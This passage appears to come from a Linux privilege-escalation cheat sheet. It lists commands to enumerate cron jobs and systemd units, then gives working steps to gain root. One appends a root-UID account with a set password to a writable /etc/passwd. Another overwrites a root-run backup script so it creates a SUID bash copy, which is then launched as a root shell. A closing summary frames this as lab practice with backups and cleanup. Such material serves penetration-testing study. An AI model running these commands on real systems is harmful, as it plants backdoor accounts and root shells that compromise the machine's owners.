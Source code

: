```
systemctl list-timers --all 2>/dev/null
systemctl list-units --type=service --all 2>/dev/null
grep -R -nE 'ExecStart|\.sh|backup|sync' /etc/cron* /etc/crontab /etc/systemd/system /lib/systemd/system 2>/dev/null

# /etc/passwd privesc (if writable)
cp /etc/passwd /tmp/passwd.bak
HASH=$(openssl passwd -6 'P@ssw0rd!')
echo "sprivesc:${HASH}:0:0:root:/root:/bin/bash" | tee -a /etc/passwd
su - sprivesc

# Cron script privesc (example: /usr/local/bin/backup.sh)
cp /usr/local/bin/backup.sh /tmp/backup.sh.bak
printf '#!/bin/sh\ncp /bin/bash /tmp/bashroot; chmod u+s /tmp/bashroot\n' > /usr/local/bin/backup.sh
chmod +x /usr/local/bin/backup.sh
# wait, then:
 /tmp/bashroot -p
```

## Summary
- Weak permissions are a top-tier Linux privilege escalation vector: anything root executes that you can modify is a target.
- Enumerate world-writable files/dirs, especially under /etc, cron, systemd, and any scripts referenced by root tasks.
- Exploitation typically involves either modifying sensitive auth files (/etc/passwd or /etc/shadow), or hijacking root-executed scripts/services to grant a SUID shell.
- Keep changes reversible in labs: back up files, validate sudoers, and clean up afterward.
- If you lack specifics (as in this summary), stick to a disciplined enumeration flow and verify each finding before acting.